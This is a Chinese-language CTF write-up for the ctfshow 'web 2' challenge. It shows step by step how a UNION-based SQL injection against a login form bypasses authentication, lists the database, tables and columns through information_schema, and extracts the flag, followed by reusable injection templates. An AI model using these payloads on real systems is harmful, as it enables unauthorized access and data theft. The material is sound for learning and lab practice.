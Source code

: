 
---



## CTF SHOW

### Web

#### web 2

常规的SQL注入 首先是一个登录框，一般遇到这种情况呢可以先抓包看看 随便输入账号密码 例如 账号admin 密码123456 抓包后，由于是post提交 可以在账号密码中拼接SQL语句 

**SQL注入思路**

 1.根据参数username和password推断为数据库查询，推测查询语句为 select  from user where username=? and password=?，所以用户名处填写 ' or 1=1;#（#为注释，用于截断后续条件），验证通过，因此接下来查询数据库的信息，首先判断中间有几列，因为使用 UNION 的时候两个表的列数量必须相同，因此测试直到填写 ' or 1=1 union select 1,2,3;#判断处有三列，根据返回的信息“欢迎你，ctfshow欢迎你，2”判断前端显示的是第2列内容。 

**ps：**可以使用 `ORDER BY` 子句来尝试。例如，从 1 开始逐渐增加数字，如 `ORDER BY 1` 、 `ORDER BY 2` 等，直到出现错误。当出现错误时，说明之前成功的那个数字就是表中的最大列数。

2.首先查询数据库名字 ，输入语句 ' or 1=1 union select 1,database(),3;# 得到返回信息为“欢迎你，ctfshow欢迎你，web2，所以数据库名为web2。 

3.然后根据语句  ' or 1=1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="web2"),3;#。**group_concat 是为了将查询结果连接成一个字符串输出**，结果为“欢迎你，ctfshow欢迎你，flag,user”，因此我们得知有两个表为flag和user。 

4.接下来就是获取flag表格的列名，输入语句 ' or 1=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name= 'flag' and table_schema='web2" ),3 #。根据结果“欢迎你，ctfshow欢迎你，flag”得出列名为flag 

5.最后获取flag，输入语句' or 1=1 union select 1,(select flag from flag limit 0,1 ),3 # （limit目的为获取第一行的值）获得结果“欢迎你，ctfshow欢迎你，ctfshow{b2faa05a-c4cc-4a5f-a58f-9391ebb19afa}”

**SQL注入查询顺序**：列数——库名（schema_name）——表名(table_name)——字段名(column_name)

- 库名

```
SELECT * FROM users WHERE username='-1' or '1'='1' union SELECT 1,schema_name,2 FROM information_schema.schemata;-- ' AND password='$password';
```

- 表名

```
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(table_name),2 from information_schema.tables where table_schema=database()-- ' AND password='$password';
```

- 字段名

```
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(column_name),2 from information_schema.columns where table_schema=database()-- ' AND password='$password';
```



#### web3
